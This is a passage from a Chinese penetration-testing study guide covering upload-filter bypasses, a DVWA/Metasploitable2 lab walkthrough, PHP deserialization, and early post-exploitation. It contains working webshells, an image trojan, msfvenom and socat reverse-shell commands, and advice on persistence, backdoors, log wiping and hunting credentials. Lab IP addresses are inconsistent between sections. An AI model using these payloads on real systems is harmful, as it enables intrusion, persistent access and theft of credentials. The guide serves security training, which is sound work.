**绕过**：`shell.pphphp` → 删掉中间的 `php`，剩下 `shell.php`。

------

**`%00` 截断（GET）**

**现象**：上传路径可控，如 `../upload/shell.php`。

**原理**：拼接路径时用 `$_GET['save_path']`，可以传 `../upload/shell.php%00`，`%00` 截断后面的内容。

**条件**：PHP < 5.3.4，`magic_quotes_gpc = Off`。

**绕过**：`save_path=../upload/shell.php%00`

------

**`%00` 截断（POST）**

**原理**：同 GET 截断，但参数在 POST 中。POST 参数中的 `%00` 不会被 URL 解码，需用 Burp 直接改二进制。

**绕过**：Burp 切换到 Hex 视图，找到文件名后的位置，把 `.jpg` 前面的空格改成 `00`（一定要切换到 Hex 视图改 00，普通的空格在 POST 中不行）。

------

**`getimagesize` 绕过（图片马）**

**现象**：检查文件头，必须是图片。

**原理**：`getimagesize()` 检查，只认图片头。

**绕过**：生成图片马

用 010 Editor 修改文件头，在php代码前面加上 `GIF89a` 然后另起一行。

```php
GIF89a
<?php @eval($_POST['pass']); ?>
```

然后上传图片马，配合文件包含漏洞执行。

------

**`getimagesize` 绕过**

**原理**：同上，图片马可绕过。

------

**`exif_imagetype` 绕过**

**原理**：同上，图片马可绕过。

------

**二次渲染**

**现象**：上传图片马，下载回来发现 PHP 代码没了。

**原理**：后端重新处理图片（压缩、缩放、重采样），只保留图片数据，删掉了嵌入的 PHP 代码。

**绕过**：找渲染后保留的区域（如注释块），某些格式（PNG IDAT chunk）的特定位置插入的代码不会被删。难度较高，参考现成的二次渲染绕过脚本。

------

**条件竞争**

**现象**：上传一个 `.php` 文件 → 被删了（404 或提示“非法文件”）；上传同一个文件 10 次，偶尔 1-2 次返回 200（或能访问到文件）；响应时间不稳定（有时快有时慢）。

**原理**：先上传 → 后显示“非法类型，已删除”（“上传成功，审核中”）。证明可以上传成功了，但是被立刻删除了。

在 Burp Intruder 上传 100 次同一个文件：

- 如果没有竞争：全部 200 或全部 403（稳定）
- 如果有竞争：部分成功部分失败

**攻击方式**：

1\. **干扰消耗算力 + Burp 爆破**。成功率高。用大量请求占满 CPU/连接池，主线程卡住，删除操作延迟。

2\. **多线程高强度上传**。简单直接。直接拼概率，总有几枪打中窗口。

只要有一个连接成功，文件就会被占用，马就会被保留下来。

------

**条件竞争（进阶）**

**思路一：Apache解析漏洞 + 条件竞争**

**原理**：

- Apache解析文件时，从最右边的后缀开始识别，遇到不认识的就往左移
- 如果上传 `shell.php.7z`，Apache先看 `.7z`（不认识）→ 再看 `.php`（认识，用PHP解析）
- 但问题是，服务器会用时间戳重命名文件，所以上传的 `shell.php.7z` 可能被改成 `12345.7z`，失去了 `.php` 后缀

**关键点**：代码是先移动文件，再重命名文件。在移动完成→重命名完成之间，存在一个**时间窗口**。如果在这个窗口期内访问到文件（此时文件名还是你上传的原始文件名），就能触发 Apache 解析漏洞。

**思路二：图片马 + 文件包含**

- 虽然代码会检查扩展名（在白名单内才能上传），但**不检查文件内容**
- 上传成功后，页面会回显图片路径
- 如果网站存在文件包含漏洞，可以用包含的方式执行图片马中的 PHP 代码

**思路三：利用Windows重命名竞争 + 原文件残留**

这个思路来自 Windows 环境下的一个特性，但依然是条件竞争。

**思路四：执行代码 + 条件竞争**

上传一个写着如下代码的 PHP 文件

```php
<?php
$myfile = fopen("shell.php", "w");
$text = '<?php @eval($_POST["cmd"]);?>';
fwrite($myfile, $text);
fclose($myfile);
echo "getshell!!!";
?>
```

**在被删除之前执行，留下一个真正的 webshell `shell.php`**。

持续上传并访问该文件，访问成功即可生成一个 WebShell。

------

**CVE-2015-2348**

该漏洞是 PHP move_uploaded_file()，函数历史上存在的底层路径处理缺陷。

攻击者可利用应用层与底层文件处理逻辑的不一致，绕过开发者对上传文件名的限制。

该漏洞属于 PHP 实现层漏洞，并非传统意义上的业务逻辑缺陷。

```text
shell.php%00.jpg
```

需要注意的是：

- 仅影响特定旧版本 PHP
- 现代 PHP 已修复
- 在现实环境中已较少出现
- 在靶场和CTF中仍具有学习价值

------

**数组绕过**

先观察成功 Shell 的请求包。

```http
......
------geckoformboundarvc1823aeebf5db4fa9c273c15c84c5143
Content-Disposition: form-data; name="upload_file"; filename="aaa. jpg"
Content-Type: image/jpeg

<?php@eval ($_POST['cmd']);?>
------geckoformboundaryc1823aeebf5db4fa9c273c15c84c5143
Content-Disposition: form-data; name="save_name[0]"

shell.php
------geckoformboundarvc1823aeebf5db4fa9c273c15c84c5143
Content-Disposition: form-data; name="save_name[2]"

jpg
------geckoformboundaryc1823aeebf5db4fa9c273c15c84c5143
Content-Disposition: form-data; name="submit"
```

有 **`save_name`**、**`filename`**、**`new_name`** 这类参数，而且它的值可以被随意改——**这就是第一个可疑信号**。

正常开发不会让用户指定最终文件名，除非有特殊需求（如图片预览、用户自定义文件名）。一旦出现这种参数，就要怀疑后端可能在用它拼路径。

然后可以尝试改它的名字，此时基本就可以试出来是数组绕过。

##### WebShell

*内网渗透的内容在后面新开一章*

```text
1. 上传漏洞（发现上传点）
       ↓
2. 上传 WebShell（绕过过滤）
       ↓
3. 连接 WebShell（蚁剑/菜刀/冰蝎）
       ↓
4. 获取服务器权限（Web 权限，通常是 www-data）
       ↓
5. 信息收集（内核、服务、配置文件、网络）
       ↓
6. 权限维持（留下后门，防止掉线）
```

**1. 上传漏洞**

- 找到上传点（头像、附件、投稿、简历、编辑器）
- 判断是否有过滤（前端/后端/MIME/扩展名/内容）
- 确认能上传任意文件（或能绕过）

**2. 上传 WebShell**

- 各种绕过，直到成功上传

```php
<?php @eval($_POST['cmd']); ?>
```

**3. 连接 WebShell**

- 工具：蚁剑 / 冰蝎 / 哥斯拉 / 中国菜刀（或手动连接）
- 配置：URL + 密码（如 `cmd`）
- 连接成功后，进入虚拟终端（文件管理、命令执行）

**4. 获取服务器权限**

**当前权限**：Web 用户（如 `www-data`、`apache`、`IIS AppPool`）

- 尝试提权：
  - Windows：`systeminfo` 看补丁 → 找提权 exp
  - Linux：`uname -a`、`sudo -l`、SUID 文件、内核漏洞
- 常见提权方式：
  - Linux：脏牛、SUID 提权、sudo 提权、Cron 任务
  - Windows：JuicyPotato、PrintNightmare、MS17-010

**5. 信息收集**

| 目标     | 命令 / 操作                             |
| :------- | :-------------------------------------- |
| 当前用户 | `whoami` / `id`                         |
| 系统版本 | `uname -a` / `systeminfo`               |
| 网络信息 | `ifconfig` / `ipconfig` / `netstat -an` |
| 进程信息 | `ps aux` / `tasklist`                   |
| 配置文件 | `config.php`、`.env`、`web.config`      |
| 数据库   | 连数据库拖数据                          |
| 其他主机 | 扫描内网（nmap / fscan）                |

**6. 权限维持**

- WebShell 持久化
  - 上传多个 Shell（不同目录、不同名字）
  - 不死马（`ignore_user_abort(true);` 不断重写自己）
- 系统后门
  - Linux：Cron 任务、SSH 公钥、`~/.bashrc`
  - Windows：注册表 `Run`、计划任务、服务

✅ **上传漏洞是一切的起点：先拿 Web 权限，再提权到系统权限，最后维持住。链路越长，被发现的风险越高。**

#### 4.4 实战

 ⚠️ *一切实验都在虚拟环境中，不要在现实公网里实验*

```text
攻击机：
Windows 11 (物理机)

靶机：
Metasploitable2 (要下载老版的。新版有些漏洞无法复现)

服务：
DVWA / Mutillidae
```

在不知道目标靶机在哪里的前提下，需要对靶机进行查找。

```bash
ip a # 查看所在网段（内网）
```

然后会获得自己 IP 和路由器 IP。由于都是在内网，所以可以使用 nmap 把包括靶机都扫出来。

```bash
nmap -sn 192.168.1.0/24 # 只看哪些主机存活
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-06 00:00 +0000
Nmap scan report for 192.168.1.1 # 虚拟网关
Host is up (0.00088s latency).
MAC Address: 00:50:56:C0:00:08 (VMware)
Nmap scan report for 192.168.1.2 # VMware 虚拟 DHCP / NAT 服务
Host is up (0.00013s latency).
MAC Address: 00:50:56:EF:97:73 (VMware)
Nmap scan report for 192.168.1.3 # 靶机
Host is up (0.0013s latency).
MAC Address: 00:0C:29:FA:DD:2A (VMware)
Nmap scan report for 192.168.1.254 # 备用虚拟网关
Host is up (0.00018s latency).
MAC Address: 00:50:56:FB:9F:F6 (VMware)
Nmap scan report for 192.168.1.130 # 攻击机
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.92 seconds
```

`.1`，`.2`，`.254` 这三个是特殊的以外，`.130` 是攻击机的前提下，`.129` 基本确认就是靶机了。但是为了完全确认，继续使用 nmap 进行扫描。

```bash
nmap 192.168.1.3 # 对单 IP 进行全面扫描
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-06 00:00 +0000
Nmap scan report for 192.168.1.3
Host is up (0.0015s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown
MAC Address: 00:0C:29:FA:DD:2A (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.74 seconds
```

可以看到好多端口都开放着（漏洞），完全可以确认是靶机 Metasploitable2 了。

然后进行上网连接：`http://192.168.1.129`

找一个有文件上传的漏洞，这里用 DVWA 网站为例吧。登录 admin/password 。下面就有 Upload（文件上传），默认难度是高难度，可以在 DVWA Security 中调整难度。

高难度文件上传源码如下

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // 1. 上传目录
    $target_path = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    
    // 2. 获取文件名、扩展名、MIME 类型
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // 3. 白名单：只允许这些扩展名
    $allowed_ext = array( 'jpg','jpeg','png' );
    
    // 4. 白名单：只允许这些 MIME 类型
    $allowed_mime = array( 'image/jpeg','image/png' );

    // 5. 三重校验
    if( in_array( $uploaded_ext, $allowed_ext ) && 
        in_array( $uploaded_type, $allowed_mime ) && 
        getimagesize( $uploaded_tmp ) ) {
        
        // 6. 移动文件
        move_uploaded_file( $uploaded_tmp, $target_file );
        
        $html .= "<pre>文件已上传：{$target_file}</pre>";
    } else {
        $html .= "<pre>只允许上传图片文件！</pre>";
    }
}
?>
```

**三重校验机制**：后缀白名单 + MIME 白名单 + 文件头校验

这意味着之前的改包、改后缀等单一绕过方法全部失效。必须制作真正的**图片马**，并配合**文件包含漏洞**才能拿到 Webshell。

**唯一的突破口**：上传一个**内容包含 PHP 代码的真实图片**，然后通过文件包含漏洞让它被当作 PHP 执行。

**第一步：制作图片马**

图片马 = 正常图片 + PHP 木马。要满足：① `getimagesize()` 通过；② 包含 PHP 代码。（注意：图片马的文件大小不能超过100000B）

方法一：CMD 二进制合并（Windows）

```cmd
copy /b normal.jpg + shell.php shell.jpg
```

- `/b`：二进制模式，保持图片头完整性
- 正常图片 `normal.jpg` 在前，PHP 代码在后
- 用记事本打开 `shell.jpg`，滚动到底部确认能看到 `<?php ... ?>` 代码

方法二：手动十六进制注入

用 010 Editor 打开正常图片，在文件末尾追加

```php
<?php
if(isset($_REQUEST['cmd'])){ // GET 方法和 POST 方法都能连接
    system($_REQUEST['cmd']);
    die(); // 执行完立即结束，不让后面的图片乱码和 DVWA 页面输出
}
?>
```

并保存。

**第二步：上传图片马**

用 Burp Suite 抓包，确保 `Content-Type` 是 `image/jpeg`，使 MIME 校验通过。

上传成功后，会返回文件保存路径，当出现下面这一句话就代表上传成功了。

```text
../../hackable/uploads/shell.jpg succesfully uploaded!
```

**第三步：文件包含漏洞触发执行**

图片上传后，无法直接执行代码（访问只会下载或显示图片，PHP 代码不执行）。必须利用 DVWA 自带的**文件包含漏洞**（File Inclusion），包含上传的文件。

原因是在源代码中发现了

```javascript
	</head>

	<body class="home">
		<div id="container">

			<div id="header">

				

			</div>

			<div id="main_menu">

				<div id="main_menu_padded">
				<ul>
				... // 其他模块功能
				<a href="../../vulnerabilities/fi/.?page=include.php">File Inclusion // 文件包含功能
                ... // 其他模块功能
				</div>

			</div>
```

有文件包含这个漏洞，但是，由于是高难度，所以 `../` 是需要绕过的。思路就是执行下面这个。

```http
http://192.168.1.3/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/shell.jpg
```

高难度文件包含源码如下（这里老板与新版就有差距了。新版删减了 `!fnmatch( "file*", $file )` 而导致几乎无法绕过。）

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?>
```

使用伪协议：`file://`

```http
http://192.168.1.3/dvwa/vulnerabilities/fi/?page=file:///var/www/dvwa/hackable/uploads/shell.jpg
```

就可以成功。（成功后页面回显是下面的情况）

```text
...(图片乱码)
Warning: Cannot modify header information - headers already sent by (output started at /var/www/dvwa/hackable/uploads/shell.jpg:5) in /var/www/dvwa/dvwa/includes/dvwaPage.inc.php on line 324

Warning: Cannot modify header information - headers already sent by (output started at /var/www/dvwa/hackable/uploads/shell.jpg:5) in /var/www/dvwa/dvwa/includes/dvwaPage.inc.php on line 325

Warning: Cannot modify header information - headers already sent by (output started at /var/www/dvwa/hackable/uploads/shell.jpg:5) in /var/www/dvwa/dvwa/includes/dvwaPage.inc.php on line 326
```

这个报错是个**PHP 很经典的提示**，表示文件已经被 PHP 当成脚本执行了。

然后 Shell 连接这里调整了很久。明明可以 GetShell 了工具连接却一直返回为空。由于图片会返回乱码，而 GetShell 工具又很挑简洁，所以这里不得不 GET 方式手动获取信息。

```http
http://192.168.1.3/dvwa/vulnerabilities/fi/?page=file:///var/www/dvwa/hackable/uploads/shell.jpg&cmd=whoami
```

它会回显 `www-data`。证明可以手动 GetShell。

不过，手动 GetShell 依然是不理想的。

既然可以手动输入命令，那么不就可以直接在文件夹下生成一个木马吗？

所以，请复制粘贴并执行以下内容

```http
http://192.168.1.3/dvwa/vulnerabilities/fi/?page=file:///var/www/dvwa/hackable/uploads/shell.jpg&cmd=echo "<?php @eval(\$_POST['cmd']); ?>" > ./shell.php
```

这样，就在 `http://192.168.1.3/dvwa/vulnerabilities/fi/` 下（不是 `/var/www/dvwa/hackable/uploads/` 目录！！！）生成了可连接的木马 `shell.php`。访问 `http://192.168.1.3/dvwa/vulnerabilities/fi/shell.php` 为空白即成功。

蚁剑连接。

然后可以选择上传 MSF 电脑木马并连接，提升交互稳定性。也可以利用 MSF 中的自动化提权功能进行提权或维护及隐藏。再往后的就都属于内网渗透了。

**第四步：信息收集**

```bash
uname -a # 查看 Linux 内核版本（提权最核心的数据）
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
cat /etc/issue   # 查看发行版名称（如 Ubuntu 16.04）
# 略，其实这里已经出现普通用户名及密码了
id # 用户及用户所在组
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sudo -l # 查看当前用户是否拥有不需要密码的 sudo 命令（极其重要！）
[sudo] password for www-data: # 这里因为我改过 root 密码
```

**第五步：权限提升**

攻击者会寻找配置错误、弱口令、历史漏洞、权限配置问题以提升权限。

**第六步：权限维持**

获得高权限后，可能尝试新增账号、修改计划任务、植入后门、修改启动项从而在未来重新进入系统。

**第七步：清理痕迹**

最后，攻击者会删除日志、修改时间戳、隐藏文件来降低被发现的概率。

------

### 第五类：反序列化类

**序列化**

将对象转换为字符串，方便存储、传输、保存。



举例：

```php
class User{
    public $name = "admin";
}
```

序列化：

```php
serialize($obj);
```

结果：

```php
O:4:"User":1:{s:4:"name";s:5:"admin";}
```

**反序列化**

将字符串恢复成对象。



举例：

```php
$data='O:4:"User":1:{s:4:"name";s:5:"admin";}';

$obj=unserialize($data);
```

恢复：

```php
$obj->name
```

得到：

```text
admin
```

**反序列化漏洞**

反序列化漏洞不是 SQL 注入输入一句 SQL 直接执行

而是让程序创建一个对象

例如：

```php
unserialize($_GET['data']);
```

攻击者控制 data 内容

于是，攻击者指定创建什么对象 对象属性是什么

甚至是发危险函数

来看一个最经典的入门级题目源码：

```php
<?php
highlight_file(__file__);

// 1. 定义一个类
class Name {
    public $username;
    public $password;

    // 魔术方法：当对象被销毁（脚本结束）时自动调用
    public function __destruct() {
        if ($this->username === 'admin' && $this->password === 'ctf_player') {
            include('flag.php');
            echo $flag;
        } else {
            echo "拒绝访问！";
        }
    }
}

// 2. 漏洞触发点：接收用户输入并反序列化
if (isset($_GET['data'])) {
    unserialize($_GET['data']); 
}
?>
```

> 为什么这里有漏洞？

正常情况下，程序员写这个类是为了在后台处理用户数据。但因为有了 `unserialize($_GET['data'])`，**攻击者可以自己构造一串恶意的“字符串”，强迫 PHP 在内存中创建一个特定属性的对象**。

------

**怎么解？**（核心三步走）

解反序列化题的核心思路是：**在本地写一段代码，生成你想要的“序列化字符串”，然后传给题目。**

**第一步：分析目标**

看上面的源码，我们的目标是让 `__destruct()` 里的 `include('flag.php')` 执行并打印出 flag。 条件是：对象的 `$username` 必须是 `'admin'`，`$password` 必须是 `'ctf_player'`。

**第二步：在本地编写 Payload 生成脚本**

**千万不要**自己去手写那串 `O:4:"Name":2:...` 的天书字符串，极易出错（因为里面严格限制了字符长度）。

正确的做法是，在你的本地电脑（或者在线 PHP 运行环境）上，抄下它的类定义，然后自己 `new` 一个对象，并调用 `serialize()` 打印出来：

```php
<?php
// 1. 抄下题目里的类结构
class Name {
    public $username;
    public $password;
}

// 2. 实例化对象，并注入你想要的值
$payload = new Name();
$payload->username = 'admin';
$payload->password = 'ctf_player';

// 3. 序列化它并打印出来
echo serialize($payload);
?>
```

运行这段本地脚本后，你会得到一串字符串： `O:4:"Name":2:{s:8:"username";s:5:"admin";s:8:"password";s:10:"ctf_player";}`

**字符串拆解：**

 - `O:4:"Name":2`：**O**bject（对象），类名长度为 **4**（Name），该对象有 **2**个属性。
 - `s:8:"username";s:5:"admin";`：第一个属性名长度为 **8**（username），它的值是**s**tring（字符串），长度为 **5**（admin）。

**第三步：发送 Payload 拿 Flag**

把生成的这串字符串，通过 URL 参数传给题目： `http://靶场地址/index.php?data=O:4:"Name":2:{s:8:"username";s:5:"admin";s:8:"password";s:10:"ctf_player";}`

**后端执行流程：**

1\. 题目收到 `data` 字符串，执行 `unserialize()`。

2\. PHP 在内存中复活了一个 `Name` 对象，且其 `$username='admin'`，`$password='ctf_player'`。

3\. 页面脚本执行完毕，PHP 自动触发该对象的魔术方法 `__destruct()`。

4\. `if` 条件判断通过，执行 `include('flag.php')`，Flag 弹到你的屏幕上

学反序列化必须掌握的三个东西

```
serialize()
```

序列化。

```
unserialize()
```

反序列化。

------

#### 5.1 魔术方法

**1. 什么是魔术方法？**（生活中的“机关”）

平时我们写代码调用函数，就像是**手动按开关**：你按了开关（调用函数），灯才会亮。 而魔术方法是**传感器机关**：你不用去按它，只要**满足了某个特定条件**，它自己就会“啪”的一声触发。

在 PHP 中，这类方法很好辨认，它们全都是以**两个下划线 `__`** 开头的（比如 `__construct`、`__destruct`）。

**2. 它是怎么做到的？**（核心机制）

PHP 解释器在执行代码时，会时刻监控对象的“生命周期”和“遭遇”。一旦对象发生了某种特定的变故，PHP 底层就会自动去调用对应的魔术方法。

我们拿最核心的三个魔术方法来举例，看看它们是怎么被“悄悄触发”的：

  ① `__construct()` —— 出生机关（构造函数）

- **触发条件**：对象被创建（New）的那一刻。
- **通俗理解**：就像婴儿出生时自带的“啼哭”技能，不用别人去教，出生就自动触发。

```php
class Robot {
    public function __construct() {
        echo "机器人启动成功！"; // 只要你 new 我，我就自动执行这句
    }
}

$myRobot = new Robot(); // 触发！控制台直接输出：机器人启动成功！
```

  ② `__destruct()` —— 销毁机关（析构函数）🌟【反序列化漏洞的核心】

- **触发条件**：对象被销毁、或者整个脚本执行结束的那一刻。
- **通俗理解**：就像特工电影里的“自毁装置”。当特工任务结束（脚本执行完），或者特工牺牲了（变量被清空），这个装置就会自动爆炸。

```php
class Bomb {
    public function __destruct() {
        echo "轰！对象被销毁了。"; 
    }
}

$a = new Bomb();
// ... 后面写了 100 行其他代码 ...
// 脚本执行到最后一行结束了，PHP 准备清理内存
// 触发！控制台自动输出：轰！对象被销毁了。
```

> 为什么它在漏洞里最重要？

因为在 PHP 中，不管你中间做了什么，只要你反序列化创建了一个对象，在网页运行结束的那一秒，PHP **百分之百**会去执行这个对象的 `__destruct()`。这就给了黑客一个稳定触发代码的“大门”。

  ③ `__toString()` —— 变身机关

- **触发条件**：你试图把一个“对象”当成“普通的字符串”去打印（echo）的时候。
- **通俗理解**：比如你直接 `echo` 一个对象，PHP 本来会报错（因为对象是一堆复杂的结构，没办法直接变成文字）。但如果你写了 `__toString`，就相当于给对象做了一个“文字版代言人”。

```php
class User {
    public function __toString() {
        return "我是张三";
    }
}

$u = new User();
echo $u; // 触发！本来 echo 只能打印字符串，现在触发机关，打印出：我是张三
```

5.5 反序列化漏洞形成原因

5.6 POP链

5.7 常见利用方式

5.8 Python Pickle（了解）

5.9 Java反序列化（了解）

------

## 内网渗透

当 web 漏洞被攻破时，就代表着成功在对面的系统中占据了初始立足之地。接下来是这台机器到底能不能变成跳板？

该章节的主要以 Metasploitable2-Linux 系统为例子，Metasploitable3-Linux 系统为内网的另一台机器。

------

### WebShell 形式入侵

由于前面有 WebShell 实战，而且 web 方面基本都比较熟悉，所以这里是根据之前的 WebShell 实战遗留下来的网站木马进行接下来的内网渗透的跳板。

------

#### 信息收集

##### 第一轮目标

回答三个问题：

  1\. **我是谁？**（权限）

  2\. **我在哪？**（系统）

  3\. **我连接到了哪个网络？**（网络环境）

这三个问题没搞清楚，后面所有操作都是盲人摸象。

当前用户

```bash
id
whoami
```

主机名

```bash
hostname
```

系统版本

```bash
cat /etc/*release
uname -a
```

网络接口

```bash
ip a
ip addr
ifconfig -a
```

路由

```bash
ip route
route -n
```

当前监听服务

```bash
ss -lntp
netstat -lntp
```

当前进程

```bash
ps aux
```

绘图

```text
               Internet?
                   │
             192.168.1.1
                   │
           ------------------
                   │
         Metasploitable2 (192.168.1.9)

身份：
www-data

权限：低权限

开放大量服务

目前未发现第二张网卡
```

##### 第二轮目标

获取完整终端

在真实的实验环境中，通过 WebShell 获得的终端并非真正的终端，而是蚁剑 / 哥斯拉模拟出来的终端。

因为我在尝试直接使用 `su - msfadmin` 时失败。回显是：`su: must be run from a terminal`

确认 shell 类型

```bash
ps -p $$
tty
```

- TTY：全称：TeleTYpewriter（电传打字机）。在 Linux 中，**TTY 就是“终端”的底层接口**。它负责接收你的键盘输入（`stdin`）、显示输出（`stdout/stderr`），并处理 `Ctrl+C`、`Ctrl+Z` 等特殊信号。
  - **没有 TTY**：就像你在一个门缝里塞纸条（执行 `ls`），塞进去后系统把结果扔回来。只能一问一答，无法持续对话。
  - **有 TTY**：就像你和系统在面对面打电话。你可以随时打断（`Ctrl+C`），系统也能主动问你（`[sudo] password for www-data:`）。

原本是想到借用 python 来获取终端但是因为是虚拟终端所以单有 python 却用不了。所以目前的办法只能用 Metasploit 的电脑木马反向连接获取真正的终端。

Metasploit 反向木马自动化且简单。生成一个木马，并上传到靶机上：

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f elf -o shell.elf
```

然后启动 `msfconsole`（监听器）（终端输入 `msfconsole`）并输入：

```bash
use exploit/multi/handler
```

设置 payload

```bash
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.1.5
set LPORT 4444
```

启动监听

```bash
exploit # 或 run
```

在目标机上运行木马（这里是上传到 /tmp 目录下）

```bash
chmod +x /tmp/shell.elf
/tmp/shell.elf
```

这样就得到了一个永久的真终端（前提是蓝队没有发现这个木马）

不过，为了不被蓝队发现，一些情况是不会上传 Metasploit 这种超级木马。

我将以另一种方式获取终端。基本思路与反向木马同理且不怕被蓝队删。

在攻击机中输入（使用 Nmap 的 ncat.exe 监听）

```bash
"C:\Program Files (x86)\nmap\ncat.exe" -nvlp 4444
```

然后就是让靶机主动连接的问题了。借用 TCP 协议连接，如果有 socat 就用它连接。

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane TCP:192.168.1.5:4444
```

PTY，是一个伪 TTY。但收集信息已经足够用了。

如果极端一些，没有 socat，那就需要上传 .py 脚本然后蚁剑 / 哥斯拉执行脚本使 netcat 连接了。（因为没有 TTY 所以正常的命令单凭 netcat 无法连接）

再极端就需要依情况而论了，像那种极简风格的 Linux 系统基本是需要配合其他方式入侵了。

##### 第三轮目标

建立主机画像

我们现在回答五个问题

1\. **这是谁的电脑？**

- 有哪些用户？哪些用户真正登录？哪些用户可能是管理员？

2\. **我有哪些能力？**

- 例如：sudo？组权限？SUID？Capability？

3\. **谁在运行？**

- 例如：Apache、MySQL、Tomcat、Cron、SSH


4\. **谁保存了秘密？**

- 例如：配置文件、数据库密码、SSH Key、History

5\. **我能去哪里？**

- 例如：还有几块网卡？还有几个网段？DNS？ARP？

我们一项一项来，而不是一次跑 LinPEAS。

**第一项：用户**

因为 Linux 提权很多时候不是靠漏洞，而是**找到另一个用户。**请执行：

```bash
cat /etc/passwd
```

然后

```bash
ls /home
```

再然后看看有没有用户登录过

```bash
last
```

> 为什么先看用户？

假设：`/home/msfadmin` 存在，下一步自然会问：msfadmin 有没有 SSH Key？msfadmin 有没有 .bash_history？msfadmin 有没有数据库密码？

提权，只是一种路径。很多情况下达成某些目标，提权至 root 并不是最优解。

因为通过某些用户可能直接找到 config.php $→$ 数据库密码 $→$ 密码复用 $→$​ SSH 登录另一台机器（横向成功）

主打一个 “装备全靠捡”！🤓

**首先分析 `/etc/passwd`**

*这里好长好长不列出占文字数了好嘛*😵‍💫

不要第一眼就看 root。

这里我把用户分三类：

第一类：系统用户

```text
daemon
bin
mail
postfix
mysql
postgres
www-data
...
```

这些用户通常对应服务。它们很重要，但不是第一优先级。

第二类：真正的用户

```text
msfadmin
user
service
```

它们有 `/home`，Shell 是 `/bin/bash`，而且可以登录。这明显就是真用户。

第三类：管理员

```text
root
```

**然后是 `/home`**

一共有四位

```text
ftp  msfadmin  service  user
```

思路！一定不要想提权。这些目录权限是什么？里面有没有 .ssh .bash_history 等配置文件或脚本、密码啥的，这些只是在找凭据。

**最后是 `last`**

```text
msfadmin tty1
```

说明有人登录过这个账号。

而在蚁剑 / 哥斯拉给出的目录中也确实能看见 .ssh .bash_history .mysql_history 等非常重要的文件。（www-data 的权限肯定是无法查看的）

不过详细信息还是需要命令来执行。

```bash
ls -la /home/msfadmin
ls -la /home/user
ls -la /home/service
```

------

如果你在阅读时发现了任何错误，请评论或发邮件告诉我，因为错误是学习和发展的一部分！
